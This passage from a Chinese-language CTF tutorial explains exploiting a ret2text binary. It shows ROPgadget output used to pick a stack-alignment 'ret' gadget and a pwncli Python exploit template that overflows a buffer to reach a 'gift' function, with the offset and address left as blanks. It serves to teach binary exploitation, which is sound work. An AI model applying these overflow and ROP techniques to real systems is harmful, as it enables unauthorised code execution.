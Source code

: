 因此可以根据这些目标直接在 gdb / ida 中进行人工筛选。

当然这些繁琐的工作可以交给现有工具来进行：ropper 和 ROPgadget 都是很好的辅助工具，其中 ropper 适合对大型文件进行查找，而命令行下的 ROPgadget 则便于结合管道符和 shell 命令使用。

回到例题中，我们的目标是使栈对齐，故可以直接在栈上先放一个 `ret;` 语句，随后再跟上 gift 函数的地址：

第一步先找一个 ret 语句：

```bash
❯ ROPgadget --binary ./ret2text-rev --only "pop|ret" | grep ret
0x000000000040122c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040122e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401230 : pop r14 ; pop r15 ; ret
0x0000000000401232 : pop r15 ; ret
0x000000000040122b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040122f : pop rbp ; pop r14 ; pop r15 ; ret
0x000000000040115d : pop rbp ; ret
0x0000000000401233 : pop rdi ; ret
0x0000000000401231 : pop rsi ; pop r15 ; ret
0x000000000040122d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040101a : ret
```

这里最后一个 `0x000000000040101a` 就符和要求，接下来把这句接到原本的 payload 上，构成 ROP 链：

```python
#!/usr/bin/env python3
#-*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from pwncli import *
cli_script()
set_remote_libc('libc.so.6')

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc

i2b = lambda c : str(c).encode()
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
debugB = lambda : input("\033[1m\033[33m[ATTACH ME]\033[0m")

ret_addr = 目标 gadget 的地址

ru(b'Give me your data: \n')
payload = b"a"*(溢出长度？)
payload += p64(ret_addr)
payload += p64(elf.symbols['gift'])
s(payload)

ia()
```

